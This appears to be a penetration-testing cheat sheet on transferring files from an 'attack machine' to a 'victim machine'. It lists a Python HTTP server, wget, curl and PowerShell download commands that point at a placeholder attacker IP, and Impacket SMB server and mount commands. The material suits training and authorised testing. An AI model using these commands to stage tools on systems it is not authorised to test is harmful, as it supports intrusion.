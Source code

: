 ```
scp example.txt user@remote-server:/home/user/
```



## Init a Python server

Execute in attack machine:

```
python3 -m http.server <port>
```

To download a file from attack machine to victim machine with wget:

```
wget http://<IP-attack>:<port-attack>/<file.txt>
```

With Curl:

```
curl -o </tmp/outputFile.txt> <http://IP-attack/file.txt>
```

With Powershell:

```
 Invoke-WebRequest -Uri "<pathAttacker>" -OutFile "<pathVictim>"
```



## Downloads files with SMB

We need to create an SMB server in the attack machine with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB.

> Create an SMB Server

Example:

```
sudo impacket-smbserver share -smb2support <pathSMBshare>
```

> Create the SMB server with a username and password

Example:

```
sudo impacket-smbserver share -smb2support <pathSMBshare> -user <user> -password <password>
```

> Mount the SMB server with username and password

Example:

```
net use n: \\<pathSMBshare> /user:<user> <password>
```
